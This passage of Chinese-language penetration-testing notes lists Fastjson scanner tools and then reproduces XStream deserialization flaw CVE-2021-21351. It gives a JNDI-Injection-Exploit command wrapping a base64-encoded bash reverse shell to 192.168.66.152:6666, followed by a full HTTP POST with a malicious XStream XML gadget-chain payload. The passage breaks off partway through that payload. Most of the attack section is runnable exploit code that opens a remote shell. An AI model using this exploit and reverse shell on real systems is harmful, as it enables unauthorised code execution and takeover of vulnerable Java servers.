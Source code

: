 https://github.com/Tsojan/TsojanScan  
  
https://github.com/Maskhe/FastjsonScan  
  
https://github.com/pmiaowu/BurpFastJsonScan  
  
https://github.com/Niiiiko/FastjsonScan4Burp  
  
-  
拓展版  
靶场  
复现  
  
https://github.com/lemono0/FastJsonParty  
# 3、J2EE-组件XStream（XML）  
  
开源Java类库，能将对象序列化成XML或XML反序列化为对象  
  
历史漏洞：https://avd.aliyun.com/search?q=XStream  
### 代码执行 (CVE-2021-21351)  
  
Xstream<=1.4.15  
  
-生成反弹Shell的JNDI注入  
  
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c   
  
{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjE1Mi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}" -A   
  
192.168.66.152  
  
-构造JNDI注入Payload提交  

```
POST / HTTP/1.1
Host: 192.168.66.152:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3181

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
```